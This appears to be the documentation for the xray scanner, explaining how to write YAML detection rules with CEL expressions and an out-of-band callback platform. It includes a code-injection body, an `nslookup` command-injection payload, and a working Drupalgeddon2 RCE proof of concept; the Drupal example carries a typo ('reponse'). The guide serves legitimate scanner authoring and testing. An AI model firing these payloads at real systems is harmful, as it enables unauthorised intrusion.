

# 如何编写YAML格式POC

xray支持用户自己编写YAML格式的POC规则，YAML是JSON的超集，也就是说，你甚至可以用JSON编写POC，但这里还是建议大家使用YAML来编写，原因如下：

1. YAML的值无需使用双引号包裹，所以特殊字符无需转义
2. YAML的内容更加可读
3. YAML中可以使用注释

## 编写环境


### VSCode

使用 VSCode，进行一些配置后可以提供一些智能提示，方便编写 POC。

首先安装 https://marketplace.visualstudio.com/items?itemName=redhat.vscode-yaml 插件，然后在 settings 中确认 Extensions - YAML 中相关的开关已经打开。然后点击 `Edit in settings.json`，将 json 内容修改为 

```javascript
{
    "yaml.schemas": {
        "https://chaitin.github.io/xray/assets/poc/yaml-poc-schema.json": "poc-yaml-*.yml"
    }
}
```

这样创建 `poc-yaml-` 开头的 `yml` 为拓展名的文件的时候，就可以自动提示了。

注意，由于插件的 bug，除了第一行以外，其他的内容无法直接提示，需要使用快捷键让 VSCode 显示提示，一般是 `ctrl` + `Space`。


### jetbrains 系列 IDE

[下载文件](../assets/poc/yaml-poc-schema.json)

配置见图



### 在线编写(不推荐，功能不全)

https://phith0n.github.io/xray-poc-generation/

编写后点击生成然后复制到本地测试即可

## POC 结构

一个最基础的 POC 如下：

```yaml
name: poc-yaml-example-com
rules:
  - method: GET
    path: "/"
    expression: |
      response.status==200 && response.body.bcontains(b'Example Domain')

detail:
  author: name(link)
  links: 
    - http://example.com
```

整个 POC 是一个键值对，其包含3个键：

- `name: string`
- `set: []string` (0.13.0 版本新增)
- `rules: []Rule`
- `detail: map[string]string`

name 是 POC 的名字

set 是用来自定义变量，比如是随机数、反连平台等。

rules 是一个由规则（Rule）组成的列表，后面会描述如何编写 Rule，并将其组成 rules。

detail 是一个键值对，内部存储需要返回给 xray 引擎的内容，如果无需返回内容，可以忽略。

如果想要贡献 poc，请阅读 [贡献POC](guide/contribute.md) 章节，里面对 poc 的编写有更多的约束。

## 生命周期

为了帮助大家更好的理解 poc 中各部分的作用，此处先介绍一下一个 yaml poc 的执行过程。

在一个 yaml poc 从文件加载到 go 的某个结构后，会首先对表达式进行预编译和静态类型检查，这一过程主要作用于 yaml 中的 set 和 expression 部分，这两部分是 yaml poc 的关键，主要用到了 CEL 表达式（下面会详细说到)。

在检查完成后，内存中的 poc 就处于等待调度的状态了。当有需要处理时。会执行类似如下的伪代码:

```
for rule in rules:
    newReq = mutate_request_by_rule(req, rule)
    response = send(newReq)
    if not check_response(response, rule):
        break
```

简单来讲就是将请求根据 rule 中的规则对请求变形，然后获取变形后的响应，再检查响应是否匹配 `expression` 部分的表达式。如果匹配，就进行下一个 rule，如果不匹配则退出执行。
如果成功执行完了最后一个 rule，那么代表目标有漏洞，将 detail 中的信息附加到漏洞输出后就完成了单个 poc 的整个流程。


## Rule

Rule 就是我们 POC 的灵魂，在 YAML 中一个 Rule 是一个键值对，其包含如下键：

- `method: string` 请求方法
- `path: string` 请求的完整 Path，包括 querystring 等
- `headers: map[string]string` 请求 HTTP 头，Rule 中指定的值会被覆盖到原始数据包的 HTTP 头中
- `body: string` 请求的Body
- `follow_redirects: bool` 是否允许跟随300跳转
- `expression: string`
- `search: string`

根据这些键的作用，我们将其分为三类：

1. `method`、`path`、`headers`、`body`、`follow_redirects`的作用是生成检测漏洞的数据包
2. `expression` 的作用是判断该条 Rule 的结果
3. `search` 的作用是从返回包中提取信息

对于第一部分的内容，用来将原始的扫描请求进行变形, 比如原请求是 `GET`，但这里制定了 `POST`, 那么发送的时候就会使用 `POST`,其他项类似，不在赘述，我们从第二部分开始介绍。

整体执行流程可以参照上述的生命周期。

### 如何编写expression表达式

如果说Rule是一个POC的灵魂，那么expression表达式就是Rule的灵魂。

正如spring使用SpEL表达式，struts2使用OGNL表达式，xray使用了编译性语言Golang，所以为了实现动态执行一些规则，我们使用了Common Expression Language (CEL)表达式。

关于CEL表达式项目的详细信息，可以参考<https://github.com/google/cel-spec>项目。如果你只是编写一些简单的规则，只需要阅读本文档的即可。

我们从上述示例中的表达式开始说起：

```
response.status==200 && response.body.bcontains(b'Example Domain')
```

CEL表达式通熟易懂，非常类似于一个Python表达式。上述表达式的意思是：**返回包status等于200，且body中包含内容“Example Domain”**。

xray 通过类型注入技术自定义了4种数据类型，包括 

+ `request` 原始扫描请求
+ `response` 当前 rule 的响应
+ `reverse` 反连平台类型
+ `url` url 类型，可以用过 `request.url`、`response.url` 和 `reverse.url` 调用

其中可以在 rule 的 expression 使用的类型有： `request`、`response` 和自定义的变量。

关于这些类型的详细属性，参照后续的清单。

expression表达式上下文还包含有一些常用的函数。比如上述 `bcontains` 用来匹配 bytes 是否包含，类似的，如果要匹配 string 的包含，可以使用 `contains`, 如：

```
response.content_type.contains("json")
```

xray 所有CEL文档中的函数，同时还包含xray引擎中自定义的函数，函数清单请参照下方清单部分。


值得注意的是，类似于python，CEL中的字符串可以有转义和前缀，如：

- `'\r\n'` 表示换行
- `r'\r\n'` 不表示换行，仅仅表示这4个字符。在编写正则时很有意义。
- `b'test'` 一个字节流（bytes），在golang中即为`[]byte`

用一些简单的例子来解释大部分我们可能用到的表达式：

- `response.body.bcontains(b'test')`
  - 返回包 body 包含 test，因为 body 是一个 bytes 类型的变量，所以我们需要使用 bcontains 方法，且其参数也是 bytes
- `response.body.bcontains(bytes(r1+'some value'+r2))`
  - r1、r2是 randomLowercase 的变量，这里动态的判断 body 的内容
- `response.content_type.contains('application/octet-stream') && response.body.bcontains(b'\x00\x01\x02')`
  - 返回包的 content-type 包含 application/octet-stream，且 body 中包含 0x000102 这段二进制串
- `response.content_type.contains('zip') && r'^PK\x03\x04'.bmatches(response.body)`
  - 这个规则用来判断返回的内容是否是zip文件，需要同时满足条件：content-type 包含关键字 "zip"，且 body 匹配上正则r'^PK\x03\x04'（就是zip的文件头）。因为 startsWith 方法只支持字符串的判断，所以这里没有使用。
- `response.status >= 300 && response.status < 400`
  - 返回包的 status code 在 300~400 之间
- `(response.status >= 500 && response.status != 502) || r'<input value="(.+?)"'.bmatches(response.body)`
  - 返回包status code大于等于500且不等于502，或者Body包含表单
- `response.headers['location']=="https://www.example.com"`
  - headers 中 `Location` 等于指定值，如果 `Location` 不存在，该表达式返回 false
- `'docker-distribution-api-version' in response.headers && response.headers['docker-distribution-api-version'].contains('registry/2.0')`
  - headers 中包含 `docker-distribution-api-version` 并且 value 包含指定字符串，如果不判断 `in`，后续的 contains 会出错。
- `response.body.bcontains(bytes(response.url.path))`
  - body 中包含 url 的 path

expression表达式返回的必须是一个bool类型的结果，这个结果作为整个Rule的值，而rules由多个Rule组成。值为true的Rule，如果后面还有其他Rule，则继续执行后续Rule，如果后续没有其他Rule，则表示该POC的结果是true；如果一个Rule的expression返回false，则不再执行后续Rule，也表示本POC的返回结果是false。

也就是说，一个POC的rules中，最后一个Rule的值，决定是否存在漏洞。

### search的作用

一个Rule中，可以支持使用search来查找返回包中的内容；当然，如果不需要查找内容，则可以忽略search。

search是一个字符串类型的正则表达式，我们用一个简单的案例来进行说明。

```yaml
name: poc-yaml-example-com
rules:
  - method: GET
    path: "/update"
    expression: "true"
    search: |
      <input type="hidden" name="csrftoken" value="(?P<token>.+?)"
  - method: POST
    path: "/update"
    body: |
      id=';echo(md5(123));//&csrftoken={{token}}
    expression: |
      status == 200 && body.bcontains(b'202cb962ac59075b964b07152d234b70')
```

目标漏洞是一个简单的代码执行，但因为是POST请求，所以需要先获取当前用户的CSRF Token。所以，我们的POC分为两个Rule，第一个Rule发送GET请求，并使用search指定的正则提取返回包中的csrftoken表单值，此时expression直接执行表达式`true`，表示第一条规则一定执行成功；第二个Rule发送POST请求，此时，我们可以在path、body、headers中使用前一个规则search的结果，如`{{token}}`等。

`{{`、`}}`中包含的名字是正则的提取的数据。如果正则没有匹配成功，这里不会进行替换。`?P<var>` 是正则表达式命名组的语法，可以到 https://regex101.com/r/VQndKy/1/ 调试和学习正则的语法。

## 自定义变量

在编写 poc 时，有时会遇到需要随机值的情况，如果只是单纯的随机值比较简单，可以直接使用 `randomLowercase` 等函数生产随机值。但经常性的，我们后续还需要用到该随机值，这就是自定义变量的用途了。

xray 的自定义变量通过 yaml 中的 set 实现，一个相对复杂的 case 如下:

```yaml
name: poc-yaml-example
set:
  r1: randomInt(5, 10)
  r2: randomLowercase(r1)
  requestType: request.content_type
rules:
  - method: GET
    path: "/?{{r2}}"
    expression: |
      requestType.contains("json") && response.status==200 && md5(r2).contains('1')
```

该 poc 最终发出的 path 类似 `/lxbfah`，意为先在 （5，10）内随机取一个整数 r1, 然后随机生成一个 r1 长度的小写随机值，在发送请求时将该值作为 path 发出。 表达式内验证原始请求的 content-type 是否包含 json 以及 md5 后的 r2 是否包含 1 这个字符等。

上面的范例包含了自定义变量的一些规律和约束:
+ set 的 value 是表达式，可以使用所有全局函数
+ set 有先后次序，后面的变量可以使用前面的再次处理
+ set 中可以使用 `request` 和 `reverse`(下面讲到) 变量
+ 在 rules 的 expression 中可以直接使用自定义变量，非 expression 的部分需要使用 `{{}}` 包裹变量，因为其他位置不是表达式（类似 search)

更多复杂用法大家可以自行发挥。

## 如何编写借助反连平台的POC

反连平台是测试一些无回显漏洞的方法，如SSRF、命令执行等，下面介绍一下在编写POC的时候，如何借助反连平台来探测漏洞。

在新版 xray 中，我们在 set 域内注入了 `newReverse()` 函数，该函数将返回一个 reverse 的自定义类型变量，一个简单的用法如下:

```yaml
name: poc-yaml-example
set:
  reverse: newReverse()
  reverseURL: reverse.url
  reverseURLHost: reverse.url.host
rules:
  - method: GET
    path: "/url={{reverseURL}}&={{reverseURLHost}}"
    expression: |
      response.status == 200 && reverse.wait(5)
```
与反连平台相关的变量如下：
- `newReverse()` 返回一个新的反连平台实例, 假设赋值给 `reverse` 变量
- `reverse.url` 反连平台的url
- `reverse.domain` 反连平台的域名
- `reverse.ip` 反连平台的ip地址
- `reverse.wait` 等待反连信息

在上面的例子中，我们首先创建了一个 reverse 实例，然后将 reverse 的 url 和 host 存放在两个自定义变量中，并在 path 中使用了这两个变量。在漏洞检测时，如果目前访问了 reverseURL 的地址，反连平台就会收到信息。 `reverse.wait(timeout)` 这个函数，用来等待反连平台接受信息。此函数会使该 poc 的运行等待 `timeout` 秒，在这个时间内，如果反连平台收到消息，则返回 true，否则一直阻塞，直到超时时间，如果超时时间到后仍然未收到消息，则该函数返回 false

有时候目标网站无法发送HTTP请求，我们亦可用DNS请求来判断漏洞。如，目标网站存在命令执行漏洞，我们可以通过执行`nslookup`命令来请求我们反连平台的DNS服务器，如：

```yaml
name: poc-yaml-example
set:
  reverse: newReverse()
  reverseDomain: reverse.domain
  reverseIP: reverse.ip
rules:
  - method: GET
    path: /execute
    body: |
      param=`nslookup%20{{reverseDomain}}%20{{reverseIP}}`
    expression: |
      response.status == 200 && reverse.wait(5)
```

此时我们使用`{{reverseDomain}}`和`{{reverseIP}}`变量，前者会被替换成反连平台的域名，后者替换成反连平台IP，此时nslookup会向`{{reverseIP}}`发送一个包含`{{reverseDomain}}`的DNS请求，此时反连平台即将收到消息，并成功记录下漏洞。

## 一些细节上的说明

在编写expression表达式的时候，尤其要注意一个问题：yaml字符串的转义，与CEL表达式字符串里的转义。

yaml中，如果要编写一个字符串类型的值，可以使用引号进行包裹，如：

```yaml
name: "value"
```

但如果value中有反斜线，会在解析yaml的时候进行转义。那么如果expression表达式代码中也存在双引号或转义符，此时转义符就已经没有了，我们需要双重转义，这个时候编写的代码就非常不可读也不可维护。

所以，建议使用yaml中支持的[块样式（block style）](https://yaml.org/spec/1.2/spec.html#style/block/)来表示，如：

```
expression: |
  response.status == 200 && response.body.bcontains(b'\x01\x02\x03')
```

此时在YAML层面无需转义。

## 如何调试 poc

如果 poc 无法扫出期望的结果，可以按照以下思路调试

 - 确定 poc 语法正确，payload 正确。
 - 在配置文件 `http` 段中加入 `proxy: "http://proxy:port"`，比如设置 burpsuite 为代理，这样 poc 发送的请求可以在 burp 中看到，看是否是期望的样子。

## 一个示例POC：《Drupal7 drupalgeddon2 命令执行漏洞（CVE-2018-7600）》

这里给出一个样例POC：

```yaml
name: poc-yaml-drupal-drupalgeddon2-rce
set:
  r1: randomLowercase(4)
  r2: randomLowercase(4)
rules:
  - method: POST
    path: "/?q=user/password&name[%23post_render][]=printf&name[%23type]=markup&name[%23markup]={{r1}}%25%25{{r2}}"
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: |
      form_id=user_pass&_triggering_element_name=name&_triggering_element_value=&opz=E-mail+new+Password
    search: |
      name="form_build_id"\s+value="(?P<build_id>.+?)"
    expression: |
      response.status==200
  - method: POST
    path: "/?q=file%2Fajax%2Fname%2F%23value%2F{{build_id}}"
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: |
      form_build_id={{build_id}}
    expression: |
      reponse.body.bcontains(bytes(r1+'%'+r2))
detail:
  drupal_version: 7
  links:
    - https://github.com/dreadlocked/Drupalgeddon2
    - https://paper.seebug.org/567/
test:
  target: http://cve-2018-7600-7-x.vulnet:8000/
```

该POC首先声明了两个随机值，然后为 rule 部分。

第一个发送一个POST包，将我们需要的Payload注入缓存中，同时，利用search字段提取缓存ID。

第二个数据包，将前面提取的缓存ID`{{build_id}}`，拼接到body中，触发代码执行漏洞，并使用`response.body.bcontains(bytes(r1+'%'+r2))`来判断是否成功执行。

关于这个漏洞的原理，可以参考这篇文章：<https://paper.seebug.org/578/>。


## 内部变量与函数速查

通过类型注入技术，我们实现了四种自定义的数据类型

其中 request 包含的字段如下：

变量名 | 类型 | 说明
---- | ---- | ----
`request.url` | `urlType` | 自定义类型 urlType, 请查看下方 urlType 的说明
`request.method` | `string` | 原始请求的方法
`request.headers` | `map[string]string` | 原始请求的HTTP头，是一个键值对（均为小写），我们可以通过`headers['server']`来获取值。如果键不存在，则获取到的值是空字符串。注意，该空字符串不能用于 `==` 以外的操作，否则不存在的时候将报错，需要先 `in` 判断下。详情参考下文常用函数章节。
`request.content_type` | `string` | 原始请求的 content-type 头的值, 等于`request.headers["Content-Type"]`
`request.body` | `[]byte` | 原始请求的 body，需要使用字节流相关方法来判断。如果是 GET， body 为空。

response 包含的字段如下:

变量名 | 类型 | 说明
---- | ---- | ----
`response.url` | `urlType` | 自定义类型 urlType, 请查看下方 urlType 的说明
`response.status` | `int` | 返回包的status code
`response.body` | `[]byte` | 返回包的Body，因为是一个字节流（bytes）而非字符串，后面判断的时候需要使用字节流相关的方法
`response.headers` | `map[string]string` | 返回包的HTTP头，类似 `request.headers`。
`response.content_type` | `string` | 返回包的content-type头的值

urlType 包含的字段如下, 以 `http://example.com:8080/a?c=d#x=y` 为例:

变量名 | 类型 | 说明
---- | ---- | ----
`url.scheme` | `string` | url 的 scheme, 示例为 `"http"`
`url.domain` | `string` | url 的域名，示例例为 `"example.com"`
`url.host` | `string` | url 的主机名，示例为 `"example.com:8080"`
`url.port` | `string` | url 的 port，注意这里也是字符串。 示例为 `"8080"`
`url.path` | `string` | url 的 path， 示例为 `"/a"`
`url.query` | `string` | url 的 query, 示例为 `"c=d"`
`url.fragment` | `string` | url 的锚点，示例为 `"x=y"`

reverse 包含字段如下。（需要先使用 newReverse() 生成实例，假设实例名为 `reverse`)

变量名/函数名 | 类型 | 说明
---- | ---- | ----
`newReverse()` | `func() reverseType` |  返回一个 reverse 实例
`reverse.url` | `string` | 反连平台的 url
`reverse.domain` | `string` | 反连平台的域名
`reverse.ip` | `string` | 反连平台的 ip 地址
`reverse.is_domain_name_server` | `bool` | 反连平台的 domain 是否同时是 nameserver
`reverse.wait(timeout)` | `func (timeout int) bool` | 等待 timeout 秒，并返回是否在改时间内获得了信息


常用函数一览

函数名 | 函数原型 | 说明
---- | ---- | ----
`contains` | `func (s1 string) contains(s2 string) bool` | 判断s1是否包含s2，返回bool类型结果
`bcontains` | `func (b1 bytes) bcontains(b2 bytes) bool` | 判断一个b1是否包含b2，返回bool类型结果。与contains不同的是，bcontains是字节流（bytes）的查找
`matches` | `func (s1 string) matches(s2 string) bool` | 使用正则表达式s1来匹配s2，返回bool类型匹配结果
`bmatches` | `func (s1 string) bmatches(b1 bytes) bool` | 使用正则表达式s1来匹配b1，返回bool类型匹配结果。与matches不同的是，bmatches匹配的是字节流（bytes）
`startsWith` | `func (s1 string) startsWith(s2 string) bool` | 判断s1是否由s2开头
`endsWith` | `func (s1 string) endsWith(s2 string) bool` | 判断s1是否由s2结尾
`in` | `string in map` | map 中是否包含某个 key，目前只有 headers 是 map 类型
`md5` | `func md5(string) string` | 字符串的 md5  (以下都是 0.13.0 版本新增)
`randomInt` | `func randomInt(from, to int) int` | 两个范围内的随机数
`randomLowercase` | `func randomLowercase(n length) string` | 指定长度的小写字母组成的随机字符串
`base64` | `func base64(string/bytes) string` | 将字符串或 bytes 进行 base64 编码
`base64Decode` | `func base64Decode(string/bytes) string` | 将字符串或 bytes 进行 base64 解码
`urlencode` | `func urlencode(string/bytes) string` | 将字符串或 bytes 进行 urlencode 编码
`urldecode` | `func urldecode(string/bytes) string` | 将字符串或 bytes 进行 urldecode 解码
`substr` | `func substr(string, start, length) string` | 截取字符串
